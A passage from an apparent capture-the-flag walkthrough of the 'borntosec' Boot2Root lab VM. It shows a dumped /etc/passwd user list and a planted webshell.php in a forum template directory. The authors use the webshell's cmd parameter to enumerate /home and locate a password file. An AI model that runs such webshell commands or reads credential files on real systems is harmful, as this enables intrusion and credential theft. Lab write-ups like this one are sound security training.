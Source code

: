 messagebus:x:102:106::/var/run/dbus:/bin/false
whoopsie:x:103:107::/nonexistent:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:110:118::/var/spool/postfix:/bin/false
```

Here we only noticed one user with the format **`laurie@borntosec.net`**. We made a note to think about whether we could do anything with having a user with special characters like @ later.

Then we go to the /home directory to see what files are on our server.

```
view-source:https://192.168.193.128/forum/templates_c/webshell.php?cmd=ls -la /home


total 0
drwxrwx--x 9 www-data             root                 126 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 200 Apr  8  2025 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
```

The first thing that caught our attention here was:
**`drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME`**

That's it.

To see what's in the folder:

```
view-source:https://192.168.193.128/forum/templates_c/webshell.php?cmd=ls%20-la%20/home/LOOKATME



total 1
drwxr-x--- 2 www-data www-data  31 Oct  8  2015 .
drwxrwx--x 9 www-data root     126 Oct 13  2015 ..
-rwxr-x--- 1 www-data www-data  25 Oct  8  2015 password
```

```
view-source:https://192.168.193.128/forum/templates_c/webshell.php?cmd=file%20/home/LOOKATME/password
